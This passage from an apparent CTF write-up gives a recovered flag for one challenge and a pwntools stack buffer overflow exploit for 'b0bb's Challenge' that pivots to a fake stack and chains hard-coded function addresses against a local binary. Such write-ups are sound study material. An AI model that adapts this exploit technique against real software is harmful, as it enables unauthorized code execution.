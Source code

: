 Trying a few different variants to get something readable, we end up with this:

`s3`, `e_`, `y0`, `u_`, `0f`, `f_`, `p1`, `st`, `3!`

which results in the following flag:

Flag: BDayCTF{s3e_y0u_0ff_p1st3!}



## [b0bb's Challenge](https://twitter.com/0xb0bb/status/1250046144421474304)

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

ADDR_BOF_OFF = 0x0804861E
ADDR_INIT_MEM = 0x080485D0
ADDR_INIT_BANNER = 0x08048596
ADDR_PRINT_BANNER = 0x08048649
ADDR_EXIT = 0x08048613

FAKE_STACK = 0x804d000 - 0x100

r = process('./challenge')
r.recvuntil('bof: ')

pause()

payload1 = b''
#payload1 += cyclic(29)
payload1 += b'A'*cyclic_find(0x61616165)
payload1 += p32(FAKE_STACK) # Writable area
payload1 += p32(ADDR_BOF_OFF)
r.sendline(payload1)

payload2 = b''
#payload2 += cyclic(29)
payload2 += b'B'*cyclic_find(0x61616165)
payload2 += p32(FAKE_STACK + 1*4)
payload2 += p32(ADDR_INIT_MEM)
payload2 += p32(ADDR_BOF_OFF)
r.sendline(payload2)

payload2 = b''
#payload2 += cyclic(29)
payload2 += b'B'*cyclic_find(0x61616165)
payload2 += p32(FAKE_STACK + 2*4)
payload2 += p32(ADDR_INIT_BANNER)
payload2 += p32(ADDR_BOF_OFF)
r.sendline(payload2)

payload2 = b''
#payload2 += cyclic(29)
payload2 += b'B'*cyclic_find(0x61616165)
payload2 += p32(FAKE_STACK + 3*4)
payload2 += p32(ADDR_PRINT_BANNER)
payload2 += p32(ADDR_BOF_OFF)
r.sendline(payload2)

payload2 = b''
#payload2 += cyclic(29)
payload2 += b'B'*cyclic_find(0x61616165)
payload2 += p32(FAKE_STACK + 4*4)
payload2 += p32(ADDR_EXIT)
payload2 += p32(0)
r.sendline(payload2)

banner = r.recvall()